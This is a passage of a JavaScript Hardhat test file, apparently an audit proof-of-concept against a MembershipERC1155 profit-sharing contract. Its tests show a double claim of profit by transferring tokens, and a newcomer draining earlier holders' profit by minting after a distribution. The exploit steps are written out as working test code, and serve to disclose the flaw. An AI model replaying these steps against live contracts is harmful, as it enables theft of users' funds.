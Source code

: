 ```javascript
    const userSecondAccount = (await ethers.getSigners())[4];
    await membershipERC1155.connect(user).safeTransferFrom(user.address, userSecondAccount.address, 1, 100, '0x');
    const newProfit = await membershipERC1155.profitOf(userSecondAccount.address, testERC20.address);
    expect(newProfit).to.be.equal(userProfit);

    // second account can claim profit
    const newBeforeBalance = await testERC20.balanceOf(userSecondAccount.address);
    await membershipERC1155.connect(userSecondAccount).claimProfit(testERC20.address);
    const newAfterBalance = await testERC20.balanceOf(userSecondAccount.address);
    expect(newAfterBalance.sub(newBeforeBalance)).to.equal(newProfit);

    // contract balance has decreased with twice the profit
    const contractBalanceAfter = await testERC20.balanceOf(membershipERC1155.address);
    expect(contractBalanceAfter).to.equal(initialContractBalance.sub(userProfit.mul(2)));
    expect(contractBalanceAfter).to.equal(0);

    // no profit left for other users
    const anotherUserProfit = await membershipERC1155.profitOf(anotherUser.address, testERC20.address);
    expect(anotherUserProfit).to.be.equal(ethers.utils.parseEther("1"));
    await expect(membershipERC1155.connect(anotherUser).claimProfit(testERC20.address)).to.be.revertedWith("ERC20: transfer amount exceeds balance");
});

it("lets users steal steal account balance by minting after profit is sent", async function () {
    await membershipERC1155.connect(deployer).mint(user.address, 1, 100);
    await membershipERC1155.connect(deployer).mint(anotherUser.address, 1, 100);
    await testERC20.mint(nonAdmin.address, ethers.utils.parseEther("20"));
    await testERC20.connect(nonAdmin).approve(membershipERC1155.address, ethers.utils.parseEther("20"));
    await membershipERC1155.connect(nonAdmin).sendProfit(testERC20.address, ethers.utils.parseEther("2"));
    const userProfit = await membershipERC1155.profitOf(user.address, testERC20.address);
    expect(userProfit).to.be.equal(ethers.utils.parseEther("1"));

    const beforeBalance = await testERC20.balanceOf(user.address);
    const initialContractBalance = await testERC20.balanceOf(membershipERC1155.address);

    // user claims profit
    await membershipERC1155.connect(user).claimProfit(testERC20.address);

    const afterBalance = await testERC20.balanceOf(user.address);
    const contractBalance = await testERC20.balanceOf(membershipERC1155.address);

    // users balance increased
    expect(afterBalance.sub(beforeBalance)).to.equal(userProfit);
    expect(contractBalance).to.equal(initialContractBalance.sub(userProfit));

    // new user mints a token after profit and can claim first users profit
    const newUser = (await ethers.getSigners())[4];
    await membershipERC1155.connect(deployer).mint(newUser.address, 1, 100);
    const newProfit = await membershipERC1155.profitOf(newUser.address, testERC20.address);
    expect(newProfit).to.be.equal(ethers.utils.parseEther("1"));

    // new user can claim profit
    const newBeforeBalance = await testERC20.balanceOf(newUser.address);
    await membershipERC1155.connect(newUser).claimProfit(testERC20.address);
    const newAfterBalance = await testERC20.balanceOf(newUser.address);
    expect(newAfterBalance.sub(newBeforeBalance)).to.equal(newProfit);

    // contract balance has decreased with twice the profit
```